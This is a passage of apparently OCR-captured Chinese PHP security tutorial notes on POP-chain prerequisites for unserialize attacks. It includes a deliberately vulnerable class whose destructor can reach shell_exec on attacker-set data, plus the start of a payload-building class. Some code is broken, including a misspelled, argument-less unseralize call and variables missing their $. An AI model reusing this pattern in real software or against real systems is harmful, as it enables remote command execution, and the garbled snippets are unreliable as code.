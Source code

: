```php
```

==输出==

```
我是一个类，不是函数
```

## 13.7 pop链前置知识

### 代码例题

```php
<?php
class index{
    private $test = "test2";
    public function __construct(){
        # 实例化 normal 函数
        $this->test = new normal();
    }
    public function __destruct(){
        # 打印normal字符串
        $this->test->action();
    }
}

class normal{
    public function action(){
        echo "please attack me";
    }
}

class evil{
    var $test2;
    public function action(){
        echo "触发成功！";
        echo shell_exec($this->test2);
    }
}

$test = new index();
echo serialize($test);
# payload 等于 反序列化 字符串
payload = urldecode(payload);
echo @unseralize();
```





### PHP 反序列化`payload`构造

```php
<?php
class index{
    private $test;
    public function __construct(){
        # 实例化 normal 函数
        $this->test = new evil();
    }
    public function __destruct(){
        # 打印normal字符串
        $this->test->action();
    }
}
```